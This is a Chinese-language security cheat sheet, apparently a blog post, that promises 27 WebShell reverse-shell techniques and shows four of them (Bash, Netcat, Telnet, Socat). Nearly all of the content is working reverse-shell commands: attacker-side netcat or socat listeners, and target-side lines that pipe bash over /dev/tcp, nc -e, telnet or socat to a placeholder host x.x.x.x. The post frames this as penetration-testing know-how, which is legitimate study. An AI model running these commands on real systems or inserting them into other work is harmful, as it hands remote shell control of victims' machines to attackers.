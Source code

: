 ```yaml
---
date: 2021-09-01
title: 全面解析 27 种 WebShell 反弹技术
author: [SecAdmin]
description: >
  本文详细介绍了多达 27 种 WebShell 反弹技术，涵盖 Bash、Netcat、Python、Java 等多种编程语言实现的反弹方法，还包括利用系统工具、漏洞、计划任务等特殊途径进行反弹的操作。同时，为深入探索相关知识，提供了 aspx、ascx、ashx、asmx 等文件的技术研究链接。无论是网络安全从业者提升渗透测试技能，还是技术爱好者深入了解 WebShell 原理，本文都能提供丰富且实用的内容。
categories: 攻防兼备
tags:
  - 网络安全
  - WebShell
  - 系统安全
---
```


# 全面解析 27 种 WebShell 反弹技术

### 1. Bash反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

### 2. Netcat反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
nc -e /bin/bash x.x.x.x port
```

### 3. Telnet反弹

```text
# 攻击者主机上打开两个终端分别执行监听
nc -lvvp 4444
nc -lvvp 5555
# 目标主机中执行
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

### 4. Socat反弹

```text
# 攻击者主机上执行监听
socat TCP-LISTEN:port,fork -
# 目标主机上执行
socat tcp-connect:x.x.x.x:port exec:'bash -li',pty,stderr,setsid,sigint,sane
```
